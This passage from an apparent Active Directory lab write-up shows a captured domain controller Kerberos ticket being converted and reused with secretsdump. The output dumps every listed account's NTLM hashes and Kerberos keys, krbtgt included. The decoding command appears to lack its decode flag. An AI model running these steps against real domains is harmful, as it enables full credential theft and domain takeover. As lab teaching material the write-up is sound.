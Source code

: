 Afterwards, open it with vim, and add this in order to delete the whitespaces:

`:%s/\s//g`

The ticket is base64 encoded, so decode it and save to a kirbi file

`cat tgt.txt|base64 > ticket.kirbi`

Convert it to `ccache` file by using the ticketconverter.py:

`ticketconverter.py ticket.kirbi ticket.ccache`

Export it:

`export KRB5CCNAME=/home/kali/Documents/delegations/Coercer/coercer/ticket.ccache`

We see that the ticket is in the `klist` now:

```bash
Ticket cache: FILE:/home/kali/Documents/delegations/Coercer/coercer/ticket.ccache
Default principal: KINGSLANDING$@SEVENKINGDOMS.LOCAL

Valid starting       Expires              Service principal
01/13/2025 14:13:48  01/14/2025 00:13:48  krbtgt/SEVENKINGDOMS.LOCAL@SEVENKINGDOMS.LOCAL
	renew until 01/17/2025 19:38:50
```

Try a secretsdump:

`secretsdump.py -k -no-pass SEVENKINGDOMS.LOCAL/'KINGSLANDING$@KINGSLANDING`

And we got the secrets!

```bash
[-] Policy SPN target name validation might be restricting full DRSUAPI dump. Try -just-dc-user
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:c66d72021a2d4744409969a581a1705e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5c3a2910c238cb5a530b8b5369a6cf1e:::
localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
tywin.lannister:1113:aad3b435b51404eeaad3b435b51404ee:af52e9ec3471788111a6308abff2e9b7:::
jaime.lannister:1114:aad3b435b51404eeaad3b435b51404ee:12e3795b7dedb3bb741f2e2869616080:::
cersei.lannister:1115:aad3b435b51404eeaad3b435b51404ee:c247f62516b53893c7addcf8c349954b:::
tyron.lannister:1116:aad3b435b51404eeaad3b435b51404ee:b3b3717f7d51b37fb325f7e7d048e998:::
robert.baratheon:1117:aad3b435b51404eeaad3b435b51404ee:9029cf007326107eb1c519c84ea60dbe:::
joffrey.baratheon:1118:aad3b435b51404eeaad3b435b51404ee:3b60abbc25770511334b3829866b08f1:::
renly.baratheon:1119:aad3b435b51404eeaad3b435b51404ee:1e9ed4fc99088768eed631acfcd49bce:::
stannis.baratheon:1120:aad3b435b51404eeaad3b435b51404ee:d75b9fdf23c0d9a6549cff9ed6e489cd:::
petyer.baelish:1121:aad3b435b51404eeaad3b435b51404ee:6c439acfa121a821552568b086c8d210:::
lord.varys:1122:aad3b435b51404eeaad3b435b51404ee:52ff2a79823d81d6a3f4f8261d7acc59:::
maester.pycelle:1123:aad3b435b51404eeaad3b435b51404ee:9a2a96fa3ba6564e755e8d455c007952:::
KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:266a819ccba54527708c65febab712ad:::
NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:ac819f7c593d51f56b614f3dcc10f193:::
ESSOS$:1105:aad3b435b51404eeaad3b435b51404ee:52bac9dd1cab3cdb208d7347118690d9:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:5ca87118dd89b088de54fb17b009eccadacf97c564e4112a8d0958f9c929165d
Administrator:aes128-cts-hmac-sha1-96:961cd2fe40742376597e986a969ef586
Administrator:des-cbc-md5:b392b0ba3e3e1925
krbtgt:aes256-cts-hmac-sha1-96:f353b3ba6b9bdbe7b0917a4a73b8250f1938c568798a5a3307bf717fe713a48f
krbtgt:aes128-cts-hmac-sha1-96:6f531a15aa3dbd348c5bfbafdfa68124
krbtgt:des-cbc-md5:1f1aad648c3479c8
localuser:aes256-cts-hmac-sha1-96:96286517ab35191f2184b009d2c1347ea40c2aa6696428df79bcc5b0f4e8514c
localuser:aes128-cts-hmac-sha1-96:531c3e0f768242e32d8ba911abe36fc5
localuser:des-cbc-md5:ab1cefe994f7b5a8
tywin.lannister:aes256-cts-hmac-sha1-96:6d700f4ade8a38d18bdd4f149aab963dfd0dce88a66240abdbdcb9044677fb80
tywin.lannister:aes128-cts-hmac-sha1-96:e813c0778e005572a1bef0c1a5337b76
tywin.lannister:des-cbc-md5:8f2594dada98862a
```